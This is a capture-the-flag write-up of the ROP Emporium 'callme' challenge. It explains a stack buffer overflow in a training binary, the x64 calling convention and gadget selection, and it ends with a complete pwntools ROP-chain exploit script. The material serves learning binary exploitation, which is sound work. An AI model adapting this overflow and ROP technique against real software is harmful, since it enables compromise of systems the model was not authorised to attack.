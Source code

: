 ```yaml
---
title: "Return-Oriented Programming - Callme"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: Reliably make consecutive calls to imported functions. Use some new techniques and learn about the Procedure Linkage Table.
layout: PostLayout
---
```


# Introduction

Challenge Description

The goal of this challenge is to understand how  more than one argument is  passed in x64 function. The challenge can be downloaded from the authors website [ropemporium](https://ropemporium.com)

>Reliably make consecutive calls to imported functions.
>Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

>**You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

First we check the binary protections enabled on the callme binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open the **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior of the binary. radare2 is a powerful disassembler/debugging tool in Linux, used for examining the  behavior of programs.

![](/static/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command in to do disassembly at a given function. From the image above, the function **pwnme** looks similar to the previous challenges ret2win and split.

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/static/images/ropemporium/stack.png)


Therefore the next function is read function, which reads for user input and stores in the specified buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From the above disassembled code, we are reading 0x200 bytes from the standard input file descriptor and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, we need to fill our buffer, overwrite the rbp register and control the return address.

For building our ropchain, we need to understand the calling conventions of AMD64 ABI. The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.

Because the system function receives one argument, we need to look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/static/images/ropemporium/poprdi_callme.png)

Next step is to determine the address of callme_one, callme_two, callme_three functions. For determining the functions address we use gdb to get the memory addresses.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb) 
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme* , we need to disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   ------
   ------
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave  
   0x000000000000092a <+272>:	ret    
End of assembler dump.
(gdb) 
```

From the disassembly code above, we can we are comparing our arguments in which we are passing to callme_one function. if the string values are not equal to values passed to the rdi, rsi and rdx registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with the pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

## Exploit
Fully working rop chain code is as shown below.

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)


callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three


io.writeafter('>', payload)

pwn.info(io.clean().decode())

```

Successful execution of the above code, we get rewarded with a correct flag.


![](/static/images/ropemporium/callme-flag.png)

